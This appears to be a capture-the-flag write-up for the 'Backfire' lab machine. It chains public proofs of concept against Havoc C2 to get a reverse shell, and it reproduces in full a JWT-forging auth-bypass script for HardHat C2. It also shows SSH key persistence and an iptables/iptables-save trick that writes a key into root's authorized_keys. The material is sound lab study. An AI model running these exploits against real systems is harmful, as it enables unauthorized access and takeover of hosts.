Backfire

Backfire was an engaging Linux box that showcased vulnerabilities in C2 frameworks and creative privilege escalation techniques. Initial reconnaissance revealed a Havoc C2 teamserver with exposed configuration files containing hardcoded credentials (ilya:CobaltStr1keSuckz! and sergej:1w4nt2sw1tch2h4rdh4tc2) and a patch file showing disabled TLS on the management port.
I exploited a chained vulnerability combining SSRF and command injection to gain RCE on the Havoc teamserver. Using a public PoC, I established a websocket connection to the internal management port, authenticated as ilya, and executed a reverse shell. I then gained SSH access by injecting my public key into ilya's authorized_keys file to secure the user flag.
A note in ilya's home directory revealed that sergej had installed HardHat C2 with default settings. After port forwarding, I exploited HardHat's authentication bypass vulnerability by crafting an admin JWT using the hardcoded secret, creating a new TeamLead user, and accessing the interactive terminal feature for command execution as sergej. Again, I established SSH persistence through key injection.
For root escalation, I discovered sergej could run iptables and iptables-save as root. Using a creative technique, I exploited bash's $'\n' quoting mechanism to inject my SSH public key as a comment in an iptables rule, then used iptables-save to write the ruleset directly to /root/.ssh/authorized_keys, achieving full root access through a novel abuse of legitimate system utilities.
User flag

Nmap scan reveals a few ports. SSH on 22, a website on port 8000 and an unidentified service on port 5000.
There are also 2 files to grab from the webpage, so I'll do that right away.
# havoc.yaotl
Teamserver {
Host = "127.0.0.1"
Port = 40056
Build {
Compiler64 = "data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
Compiler86 = "data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc"
Nasm = "/usr/bin/nasm"
}
}
Operators {
user "ilya" {
Password = "CobaltStr1keSuckz!"
}
user "sergej" {
Password = "1w4nt2sw1tch2h4rdh4tc2"
}
}
Demon {
Sleep = 2
Jitter = 15
TrustXForwardedFor = false
Injection {
Spawn64 = "C:\\Windows\\System32\\notepad.exe"
Spawn32 = "C:\\Windows\\SysWOW64\\notepad.exe"
}
}
Listeners {
Http {
Name = "Demon Listener"
Hosts = [
"backfire.htb"
]
HostBind = "127.0.0.1"
PortBind = 8443
PortConn = 8443
HostRotation = "round-robin"
Secure = true
}
}
# Disable_tls.patch
Disable TLS for Websocket management port 40056, so I can prove that
sergej is not doing any work
Management port only allows local connections (we use ssh forwarding) so
this will not compromize our teamserver
diff --git a/client/src/Havoc/Connector.cc b/client/src/Havoc/Connector.cc
index abdf1b5..6be76fb 100644
--- a/client/src/Havoc/Connector.cc
+++ b/client/src/Havoc/Connector.cc
@@ -8,12 +8,11 @@ Connector::Connector( Util::ConnectionInfo* ConnectionInfo )
{
Teamserver = ConnectionInfo;
Socket = new QWebSocket();
- auto Server = "wss://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";
+ auto Server = "ws://" + Teamserver->Host + ":" + this->Teamserver->Port + "/havoc/";
auto SslConf = Socket->sslConfiguration();
/* ignore annoying SSL errors */
SslConf.setPeerVerifyMode( QSslSocket::VerifyNone );
- Socket->setSslConfiguration( SslConf );
Socket->ignoreSslErrors();
QObject::connect( Socket, &QWebSocket::binaryMessageReceived, this, [&]( const QByteArray& Message )
diff --git a/teamserver/cmd/server/teamserver.go b/teamserver/cmd/server/teamserver.go
index 9d1c21f..59d350d 100644
--- a/teamserver/cmd/server/teamserver.go
+++ b/teamserver/cmd/server/teamserver.go
@@ -151,7 +151,7 @@ func (t *Teamserver) Start() {
}
// start the teamserver
- if err = t.Server.Engine.RunTLS(Host+":"+Port, certPath, keyPath); err != nil {
+ if err = t.Server.Engine.Run(Host+":"+Port); err != nil {
logger.Error("Failed to start websocket: " + err.Error())
}
There are 2 sets of credentials in the first file, and the second file reveals that this havoc teamserver is not using TLS on a local port.
RCE via chained PoCs on Havoc.
Eventually, I found two PoCs related to Havoc.
https://github.com/chebuya/Havoc-C2-SSRF-poc
https://github.com/IncludeSecurity/c2-vulnerabilities/tree/main/havoc_auth_rce
And a third PoC that combines the previous two.
https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE
The main idea behind this PoC chain is to use SSRF to open a websocket connection to 127.0.0.1:40056, authenticate as ilya and then use the command injection to send back a reverse shell.
The combined PoC requires a few small modifications which are commented nicely. Additionally, I'll change the command to a regular bash reverse shell.

I'll run the combined script.
python havoc_rce.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056

The shell has been received succesfully.
Getting SSH access as ilya
I would like to gain SSH access, in order to quickly return if I were to get kicked off this bash shell. I can do that by injecting a public key into the authorized_keys of ilya.
First, I want to generate a key. I'll do so using ssh-keygen.
I'll copy the public key, and I'll paste it into the authorized_keys of ilya on the box.
echo "key" >> ~/.ssh/authorized_keys

Now I should be able to ssh as ilya using my private key.

Root flag
Besides the user flag, there is also a hardhat.txt note in ilya's home directory.
Sergej said he installed HardHatC2 for testing and not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C#
Since this note mentions hardhat, I did some research and found a few important things:
- Port 7096 is used by hardhat
https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7
The linked blog contains a few vulnerabilities. I'm going to use the second one.
HardHat auth bypass
I forwarded port 7096 and 5000(seen in the PoC) with ssh.
ssh ilya@10.10.11.49 -i id_1 -L 5000:127.0.0.1:5000 -L 7096:127.0.0.1:7096
I then went to https://127.0.0.1:7096, and was welcomed by the HardHat login screen.

This is where the exploit comes in. It'll allow me to create a new user with no authentication.
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
rhost = '127.0.0.1:5000'
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
expiration = now + datetime.timedelta(days=28)
payload = {
"sub": "HardHat_Admin",
"jti": str(uuid.uuid4()),
"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
"iss": issuer,
"aud": issuer,
"iat": int(now.timestamp()),
"exp": int(expiration.timestamp()),
"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
"Authorization": f"Bearer {token}",
"Content-Type": "application/json"
}
burp0_json = {
"password": "hexicon",
"role": "TeamLead",
"username": "hexicon"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)

I should now be able to login with the credentials hexicon | hexicon

HardHat RCE
Looking back at the linked article, I can see a way to gain remote code execution on HardHat.
After clicking the interact field, I can open a terminal and execute commands on the box.

Since its running as sergej, I added my key to his authorized_keys, just like I did earlier with ilya.

Sergej to root

Sergej can run both iptables and iptables-save as root. I can set rules with iptables, and save everything in my location of choice with iptables-save.
I searched iptables root escalation, and quickly found an interesting article.
https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/
By using the $'' quoting with the comment, \n will be treated as a newline character and will push everything after itself onto a new line.
Since I can save the ruleset everywhere I want, I'm going to use iptables to create a rule with a comment containing \n<KEY>\n, which should place the key on a separate line from everything.
By saving the ruleset in /root/.ssh/authorized_keys, I will be able to ssh into the machine as root.
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n<KEY>\n'
Lets confirm whether the key is indeed on a separate line.
sudo iptables -S

Everything worked correctly. I'll save the rules into root's authorized_keys dir.
sudo iptables-save -f /root/.ssh/authorized_keys
Lastly, I'll ssh into the box as root to finish the box.

Rooted!